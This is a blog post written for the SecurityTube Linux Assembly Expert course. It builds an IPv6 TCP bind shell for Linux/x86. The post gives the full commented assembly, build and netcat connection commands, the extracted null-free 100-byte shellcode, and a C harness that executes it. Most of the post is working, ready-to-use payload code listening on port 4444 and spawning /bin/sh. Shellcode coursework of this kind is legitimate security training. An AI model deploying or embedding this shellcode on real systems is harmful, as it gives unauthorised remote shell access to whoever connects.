 ```yaml
---
layout: post
title: SHELL_BIND_TCP_IPV6 – LINUX/X86
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 1
* Github: [Kartik Durg](https://github.com/kartikdurg)

___

The objective of this assignment is to create a Shell_bind_TCP in Linux/x86 Assembly for which, port number should be easily configurable.

To solve this challenge I found following resources very help full:

1. [Syscalls](http://syscalls.kernelgrok.com/)
2. [UAPI/in.h](https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/in.h)
3. [Socket_Services](https://www.3dbrew.org/wiki/Socket_Services)
4. [The IPv6 sock addr structure](http://osr600doc.xinuos.com/en/SDK_netapi/sockC.TheIPv6sockaddrstructure.html)
5. [inet6_proto](http://www.qnx.com/developers/docs/6.5.0/index.jsp?topic=%2Fcom.qnx.doc.neutrino_lib_ref%2Fi%2Finet6_proto.html)

Before going further, I would like to point out few basic rules a shellcode should obey:

* Null free!!
* A shellcode should be as small as possible because, you may never know the size of memory inside which the shellcode will be inject.
* Register aware – clean up the registers before using them, so that you can reuse those registers and save few bytes to achieve small size shellcode.
* Also, no long jumps.

Here is how a `Shell_bind_TCP` for `IPV6` looks like in C:
___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-1.jpg)

___

A quick breakdown of above shell developed in C:

* Create socket
* Bind socket to a local port
* Listen for incoming connections
* Accept incoming connection
* Redirect `STDIN`,`STDOUT` and `STDERR` to newly created socket from client.
* Spawn the shell.

Now lets create all the above socket programming module’s in `assembly` by making use of `syscalls`. To achieve this, we need to make use of three registers:

* `0x66` is the number of `socketcall()` as defined in the linux headers.This number should be stored in `EAX` register.
* `/usr/include/linux/net.h` contains the call id of socket functions. Store the call id of a socket that you want to use inside the `EBX` register. ( I will be using SYS_BIND, SYS_LISTEN and SYS_ACCEPT )
* `ECX` should contain pointer to the arguments.

___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-2.jpg)

___

Now that we are aware of basic rules, registers and socket calls to be used for writing our shellcode, lets jump into the assembly:

```
global _start
section .text

_start:
;IPV6 socket creation 
;int socketcall(int call, unsigned long *args);
;sockfd = socket(int socket_family, int socket_type, int protocol);
push byte 0x66              ;socketcall()
pop eax                     ;EAX=0x2

xor ebx,ebx                 ; zero out ebx

push 0x6                    ; IPPROTO_TCP=6
push 0x1                    ; socket_type=SOCK_STREAM (0x1)
push 0xa                    ; AF_INET6
inc ebx                     ; Define SYS_socket = 1
mov ecx,esp                 ; save pointer (ESP) to socket() args (ECX)
int 0x80
xchg esi,eax                ; socfd stored in esi
xor eax,eax

 ;Bind
;int socketcall(int call, unsigned long *args);
;bind(host_sockfd, (struct sockaddr*) &host_addr, sizeof(host_addr)); 
push DWORD eax              ;x4 dword ipv6 loopback  | EAX contains 0
push DWORD eax
push DWORD eax
push DWORD eax
push eax                    ;sin6_addr = in6addr_any | in6addr_any=::
push WORD 0x5c11            ;sin6_port=4444 | 0x5c11 | Configurable |
push WORD 0x0a              ;AF_INET6
mov ecx,esp                 ;ECX holds pointer to struct sockaddr_in6
push byte 0x1c              ;sizeof(sockaddr_in6) | sockaddr_in6 = 28
push ecx                    ;pointer to host_sockfd
push esi                    ;host_sockfd
mov ecx,esp                 ;ECX points to args
inc ebx                     ;EBX = 0x2 | #define SYS_BIND 2
push byte 0x66              ;socketcall()
pop eax
int 80h

;Listen
;int socketcall(int call, unsigned long *args);
;int listen(int host_sockfd, int backlog);
push ebx                    ;EBX=2 | backlog=2
push esi                    ;poiter to host_sockfd
mov ecx,esp                 ;ECX points to args
inc ebx
inc ebx                     ;EBX = 0x4| #define SYS_LISTEN 4
push byte 0x66              ;socketcall()
pop eax
int 80h

;Accept
;int socketcall(int call, unsigned long *args);
;accept(int sockfd, NULL, NULL);
cdq                         ;EDX = 0x0 | Saves a byte
push edx                    ;Push NULL
push edx                    ;Push NULL
push esi                    ;Push host_sockfd
mov ecx,esp                 ;ECX points to args
inc ebx                     ;EBX = 0x5 | #define SYS_ACCEPT 5
push byte 0x66              ;socketcall()
pop eax
int 80h

xchg ebx,eax                ;save client_sockfd

push byte 0x2               ;push 0x2 on stack
pop ecx                     ;ECX = 2

;dup2() to redirect stdin(0), stdout(1) and stderr(2)
loop:
push byte 0x3f              ;dup2()
pop eax                     ;EAX = 0x3f
int 0x80                    ;exec sys_dup2
dec ecx                     ;decrement counter
jns loop                    ;if SF not set ==> keep jumping

;execve(/bin//sh)
xor ecx,ecx                 ;clear ECX
push ecx                    ;Push NULL
push byte 0x0b              ;execve() sys call number
pop eax                     ;EAX=0x2 | execve()
push 0x68732f2f             ;(1)/bin//sh
push 0x6e69622f             ;(2)/bin//sh
mov ebx,esp                 ;EBX pointing to "/bin//sh"
int 0x80                    ;Calling Interrupt for sys call
```

As you can see, we have `EAX: 0x66 , EBX: 0x1, ECX:{10,1,0}` that will issue a socketcall of type `SYS_SOCKET`. Similarly `0x2` for `SYS_BIND`, `0x4` for `SYS_LISTEN` and `0x5` for `SYS_ACCEPT`.

Moving further to next instruction, `IPPROTO_TCP` is defined by using push `0x6`, `SOCK_STREAM` by using push `0x1` and `AF_INET6` by using push `0xa`. I have used `IPPROTO_TCP` because it supports both `AF_INET` and `AF_INET6` sockets.

___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-3.jpg)

___

Before calling `bind()`, you can notice that `sin6_addr` is set to `0` by using push `DWORD EAX` and then setting up `::1(localhost)`, port `4444` as below:

* PUSH `EAX`
* PUSH `0x5c11 (Configurable)`

### COMPILING AND CONNECTING TO SHELLCODE:

```
==> nasm -f elf32 -o shell_bind_tcp_ipv6.o shell_bind_tcp_ipv6.asm
==> ld -o shell_bind_tcp_ipv6 shell_bind_tcp_ipv6.o
==> lsof | grep 2863 | grep -i listen
# Connect to 127.0.0.1:4444
==> nc -nv 127.0.0.1 4444
```

___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-4.jpg)

___


### EXTRACTING THE SHELLCODE:
```
objdump -d shell_bind_tcp_ipv6.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

### SHELLCODE IN C:
```
#include<stdio.h>

unsigned char shellcode[] = \
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()
{
printf("Shellcode Length: %d\n", sizeof(shellcode) - 1);
int (*ret)() = (int(*)())shellcode;
ret();
}
```

### TESTING THE FINAL SHELLCODE:
___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-5.jpg)

___

Objectives achieved:

* Shellcode is null free.
* Only 100 bytes in size.
* Port can be easily configured. ( To configure the port, check the “Configurable” comment in assembly code.)
* Register independent

Exploit-DB: [https://www.exploit-db.com/exploits/45080](https://www.exploit-db.com/exploits/45080)

Link to C-code:
[shell_bind_tcp_ipv6.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x1/shell_bind_tcp_ipv6.c)

Link to Shellcode.ASM:
[shell_bind_tcp_ipv6.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x1/shell_bind_tcp_ipv6.asm)

Link to Shellcode.c:
[shell_bind_tcp_ipv6_final.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x1/shell_bind_tcp_ipv6_final.c)

Thank you for reading 🙂

– Kartik Durg
